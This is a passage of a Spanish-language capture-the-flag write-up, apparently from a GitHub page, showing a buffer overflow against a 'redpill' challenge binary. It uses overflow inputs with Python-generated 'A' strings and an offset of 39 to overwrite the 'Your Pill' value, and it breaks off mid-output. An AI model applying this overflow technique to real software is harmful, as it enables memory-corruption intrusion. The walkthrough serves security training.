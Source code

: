 ````
             `.--..` '''   

 Take the Red Pill!! 

     Red Pill  0x50444552
     Your Pill 0x0b103743

  Blue Pill
```

En esta caso estamos antes un buffer overflow en el argumento de entrada.

```
root@kali:~/Desktop# ./redpill $(python -c "print 'A'*100")

        .--``..---.                
         .````--:ohdmNms/`         
          -:/+++/-.:smNd+          
       ```..--:ohmNNdhh.           
     `-. `.``.-+sosshd.         :. 
   -os--/sosdmmNNMMNy         .+// 
  :h+.+hNNMMMNNNMMNm/      `/yNN.` 
 .do/oNNMMMMMmohs+:`    .+hNMMMM-` 
 `yohNhNNNMh-           dosNMMMmo- 
  -mN+hMMMy             .smNMNdd/+`
   yN.hMMh               +NMMNmhds:
   +N//m+                 .osshyho 
  ..smhh                           
   ::oNmy-                         
      .//yhs/:`                    
          :ymNN/                   
         .-+shdho.                 
             `.--..` '''   

 Take the Red Pill!! 

     Red Pill  0x50444552
     Your Pill 0x41414141

  Blue Pill
Segmentation fault
```

Ahora afinamos el número de carácteres de entrada, hasta conseguir tener el control de la dirección de memoria de "Your Pill", tras varias pruebas descubrimos que el offset es 39. 

```
root@kali:~/Desktop# ./redpill $(python -c "print 'A'*39 + 'B'*4")

        .--``..---.                
         .````--:ohdmNms/`         
          -:/+++/-.:smNd+          
       ```..--:ohmNNdhh.           
     `-. `.``.-+sosshd.         :. 
   -os--/sosdmmNNMMNy         .+// 
  :h+.+hNNMMMNNNMMNm/      `/yNN.` 
 .do/oNNMMMMMmohs+:`    .+hNMMMM-` 
 `yohNhNNNMh-           dosNMMMmo- 
  -mN+hMMMy             .smNMNdd/+`
   yN.hMMh               +NMMNmhds:
   +N//m+                 .osshyho 
  ..smhh                           
   ::oNmy-                         
      .//yhs/:`                    
````